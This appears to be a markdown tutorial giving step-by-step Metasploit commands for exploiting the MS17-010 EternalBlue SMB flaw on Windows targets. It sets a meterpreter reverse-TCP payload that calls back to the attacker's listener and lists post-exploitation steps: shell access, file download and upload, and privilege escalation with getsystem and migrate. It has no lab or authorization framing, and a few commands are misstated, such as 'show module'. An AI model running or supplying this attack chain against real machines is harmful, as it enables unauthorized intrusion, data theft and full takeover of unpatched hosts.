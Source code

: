 # Exploiting MS17-010 EternalBlue Vulnerability using Metasploit

## 1. Set Up Your Environment
Ensure you have Metasploit installed on your system. You can use Kali Linux, Parrot OS, or install Metasploit manually on your preferred OS.

## 2. Start Metasploit Framework
Open a terminal and launch Metasploit by typing:

```bash
msfconsole
```

Once inside Metasploit, you can search for the EternalBlue module using:

```bash
show module
```

## 3. Search for the MS17-010 EternalBlue Exploit Module
To search for a specific module:

```bash
search ms17-010
```

## 4. Select the Exploit Module
After finding the appropriate exploit module (e.g., exploit/windows/smb/ms17_010_eternalblue), select it by entering:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

## 5. Set Required Parameters

```bash
Set RHOSTS <Target IP>
```

Review other options that might need configuration using the `show options` command and set them accordingly. Common options include `LHOST`, `RPORT`, etc.
-----------------------------------------------------------------------------
| Parameter | Description                           | Example Usage         |
|-----------|---------------------------------------|-----------------------|
| RHOSTS    | Remote host(s) IP address(es)         | set RHOSTS 192.168.1.5|
| LHOST     | Local host listening IP for payloads  | set LHOST 192.168.1.2 |
| RPORT     | Remote port for the target service    | set RPORT 445         |
-----------------------------------------------------------------------------
## 6. Set Payload

After selecting the exploit module, you need to set the payload that will be delivered to the compromised system. This payload determines the action or code executed on the target after exploitation.
For example, to set the payload as a reverse shell for a Windows target:

```bash
set payload windows/meterpreter/reverse_tcp
```

## 7. Execute the Exploit
Once all necessary options are set, run the exploit by typing:

```bash
exploit
```

The exploit might take some time to run. Upon successful exploitation, Metasploit may display the meterpreter prompt, indicating a successful compromise of the target system.

## 8. Post-Exploitation Actions

Once the exploit succeeds and you gain access to the compromised system, you can perform various post-exploitation actions using the `meterpreter` prompt.

### Some useful post-exploitation commands:

- **System Commands**: Execute system commands on the target system using :
  
```bash
shell
```
  
Gather System Information: Retrieve system information like system details, user information, etc. using commands such as `sysinfo`, `getuid`, etc.

File Operations: Manipulate files on the compromised system using commands like `download`, `upload`, `ls`, `cd`, etc.

Privilege Escalation: Attempt to elevate privileges on the target system using modules like `getsystem`, `migrate`, etc.


